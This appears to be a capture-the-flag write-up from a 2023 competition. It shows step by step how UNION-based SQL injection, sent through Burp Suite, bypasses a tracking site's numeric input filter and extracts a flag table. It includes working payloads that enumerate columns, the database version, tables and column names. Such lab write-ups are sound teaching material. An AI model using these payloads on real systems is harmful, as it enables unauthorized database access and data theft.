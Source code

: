 VULNERABILITY :- SQL-INJECTION (SQLi) USING UNION

The system displayed the tracking website that has the illegal package's tracking number

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/8d9231bf-6516-46e1-8425-60d4058326ef)

1. Can track normal traking number by entering 100920001 or 100920002 or 100920003. It will display the normal package status and other details.
2. Insert any one of the SQL syntax in the box such as ' OR 1 -- - or others but the website will filter because only accept numbers only.
3. Open burp suite and intercept the search box in the website.

![image](https://github.com/aminnazri00/AturKreatif-2023/assets/86725014/d9441653-048b-4543-a6c3-4f1a813dae6a)

4. Send the request to repeater
5. Enter the id with SQL syntax below

(Note: For the first time only insert one null because want to try and error till get 6 columns that needed)
    
```
-1' UNION SELECT null,null,null,null,null,null-- 
```

6. It will show result with no data.
7. Insert @@version on one of the null will give the current version of the database.

```
-1' UNION SELECT null,null,null,null,null,@@version-- 
```

8. After get the version and what type of the database, we can figure out how their syntax to enter. Find out how to list all the databases and enter next command:

```
-1' UNION SELECT null,null,null,null,null,TABLE_NAME FROM information_schema.tables-- 
```

9. It will list out all tables that available and found w0wg00d that look suspicious.
10. After that need to list out all the columns that available by entering the command below:

```
-1' UNION SELECT null,null,null,null,null,COLUMN_NAME FROM information_schema.columns-- 
```

11. From both information we get, we can retrieve all data from other table by entering command below and found the flag

```
-1' UNION SELECT null,null,null,null,null,f0undM3 FROM w0wg00d-- 
```
